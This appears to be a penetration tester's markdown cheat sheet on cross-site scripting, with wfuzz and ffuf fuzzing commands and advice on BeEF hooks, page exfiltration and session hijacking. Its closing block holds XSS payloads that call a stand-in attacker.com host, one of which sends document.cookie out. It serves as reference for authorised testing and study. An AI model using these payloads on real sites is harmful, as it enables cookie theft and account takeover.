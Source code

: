 # Cross Site Scripting

## Things to remember
  *  PayloadsAllTheThings contains tons of [XSS payloads and filter bypass techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
  *  Descriptions summarized from [OWASP XSS page](https://owasp.org/www-community/attacks/xss/)
  *  Reflected XSS coerces the victim browser to send the payload to the server
      *  The server "reflects" the payload back to the browser
      *  e.g. Specially crafted links, redirects, etc.
  *  Stored XSS involves storing the payload on the server
      *  Affects any user that visits the page containing the payload

## Useful tools
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) and [`ffuf`](https://github.com/ffuf/ffuf) for manually fuzzing web app inputs for XSS
  *  [`seclists`](https://github.com/danielmiessler/SecLists) for some command injection fuzzing lists
  *  [`BeEF`](https://beefproject.com/) for hooking/controlling/exploiting browsers

## Fuzzing for XSS
  *  `wfuzz` and `ffuf` for XSS fuzzing
      *  Fuzz more than just parameters! Cookies, headers, etc.
  *  Carefully parse HTTP POST requests before using `wfuzz`
      *  Be specific with things like cookies, headers, URL structure, etc.
      *  Failing to provide these values can produce ineffective requests
  *  `ffuf` can parse requests from text files
      *  Easier handling of more complex POST requests
      *  No recursive grep, consider `Burp Intruder` in these cases
  *  Plenty of XSS wordlists available in `seclists`

```
wfuzz -w /path/to/xss.txt -b 'exampleCookie=cookieValue' 'http://10.0.0.1/xss?param=FUZZ'
wfuzz -w /path/to/xss.txt -H 'exampleHeader: headerValue' -d 'param=FUZZ' 'http://10.0.0.1/xss'
```

```
ffuf -request req.txt --request-proto http -w /path/to/xss.txt -v
```

## Exploiting XSS
  *  Implant `BeEF` hooks to leverage XSS into browser control
  *  Consider leveraging XSS to "view" web pages as the victim user
      *  Useful in situations where token/cookie theft is not possible/applicable
      *  Send request to target page, b64 encode response, send b64 blob to attacker server
  *  Consider chaining XSS into various client-side attacks
      *  Browser exploit, harvester implant/redirect, drive-by download, etc.
  *  Consider chaining XSS into session hijack by stealing cookies/tokens
      *  PayloadsAllTheThings has a list of [payloads for cookie/token theft](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#data-grabber-for-xss)

```
<img src="http://attacker.com/" />
<script>new Image().src="http://attacker.com/"+document.cookie;</script>
<script>window.location.href="http://attacker.com/harvester";</script>
```
